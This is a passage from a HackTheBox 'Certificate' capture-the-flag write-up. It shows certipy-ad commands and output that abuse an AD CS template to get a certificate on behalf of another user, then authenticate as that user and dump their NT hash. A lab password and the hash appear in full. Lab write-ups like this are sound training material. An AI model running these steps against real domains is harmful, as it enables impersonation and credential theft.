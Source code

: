 ```

```
Requests a certificate on behalf of RYAN.K using the SignedUser template and saves it as lion.sk.pfx.

```
certipy-ad req \
  -u 'lion.sk@certificate.htb' \
  -p '!QAZ2wsx' \
  -dc-ip '10.10.11.71' \
  -target 'dc01.certificate.htb' \
  -ca 'Certificate-LTD-CA' \
  -template 'SignedUser' \
  -pfx 'lion.sk.pfx' \
  -on-behalf-of 'CERTIFICATE\RYAN.K'
```
```
┌──(kali㉿kali)-[~/HTB/Certificate]
└─$ certipy-ad req \
  -u 'lion.sk@certificate.htb' \
  -p '!QAZ2wsx' \
  -dc-ip '10.10.11.71' \
  -target 'dc01.certificate.htb' \
  -ca 'Certificate-LTD-CA' \
  -template 'SignedUser' \
  -pfx 'lion.sk.pfx' \
  -on-behalf-of 'CERTIFICATE\RYAN.K'

Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 23
[*] Successfully requested certificate
[*] Got certificate with UPN 'RYAN.K@certificate.htb'
[*] Certificate object SID is 'S-1-5-21-515537669-4223687196-3249690583-1117'
[*] Saving certificate and private key to 'ryan.k.pfx'
[*] Wrote certificate and private key to 'ryan.k.pfx'

```
Authenticates as RYAN.K using the previously obtained certificate ryan.k.pfx.

```
certipy auth -pfx ryan.k.pfx -dc-ip 10.10.11.71
```

```                                                                                                                                                  
┌──(kali㉿kali)-[~/HTB/Certificate]
└─$ sudo ntpdate 10.10.11.71 &&certipy-ad auth -pfx ryan.k.pfx -dc-ip 10.10.11.71
  
2025-10-05 10:54:05.132405 (-0400) +542.583734 +/- 0.092811 10.10.11.71 s1 no-leap
CLOCK: time stepped by 542.583734
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'RYAN.K@certificate.htb'
[*]     Security Extension SID: 'S-1-5-21-515537669-4223687196-3249690583-1117'
[*] Using principal: 'ryan.k@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ryan.k.ccache'
[*] Wrote credential cache to 'ryan.k.ccache'
[*] Trying to retrieve NT hash for 'ryan.k'
[*] Got hash for 'ryan.k@certificate.htb': aad3b435b51404eeaad3b435b51404ee:b1bc3d70e70f4f36b1509a65ae1a2ae6                                    
```
